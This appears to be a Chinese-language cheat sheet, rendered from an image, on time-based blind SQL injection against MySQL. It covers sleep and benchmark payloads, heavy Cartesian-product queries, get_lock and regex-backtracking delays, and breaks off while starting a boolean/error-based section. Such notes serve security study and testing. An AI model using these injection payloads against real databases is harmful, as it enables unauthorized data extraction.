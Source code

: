 # 延时盲注
### sleep
```plsql
if((condition), sleep(5), 0);
CASE WHEN (condition) THEN sleep(5) ELSE 0 END;
```
无`if`和`case`的情况
```plsql
sleep(5*(condition))   
```
![image.png](./images/20231017_2354124211.png)
### benchmark
用法`benchmark(执行多少次，执行什么操作)`
```plsql
select benchmark(10000000, sha1('Ki1ro'))
```
通过修改执行的次数和执行的操作(比如`sha1(sha1(sha1(sha1())))`这样多套几层)，可以精准控制延时时间。
### 笛卡尔积
HEAVY QUERY
```plsql
select count(*) from information_schema.columns A, information_schema B
select sum('A') from information_schema.columns A, information_schema B
select avg('A') from information_schema.columns A, information_schema B
```
### get_lock
可以精准控制延时时间，但是不好用，因为需要维持MySQL的会话，基本用不到。<br />![image.png](./images/20231017_2354132329.png)
### 正则
通过正则的状态机不断进行状态转换，增加比配的时长，打到延时的目的。例如：
```plsql
select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');
```
# 布尔报错盲注
例如该源码，并且禁掉了其他延时盲注
```plsql
$con = new mysqli($hostname,$username,$password,$database)
```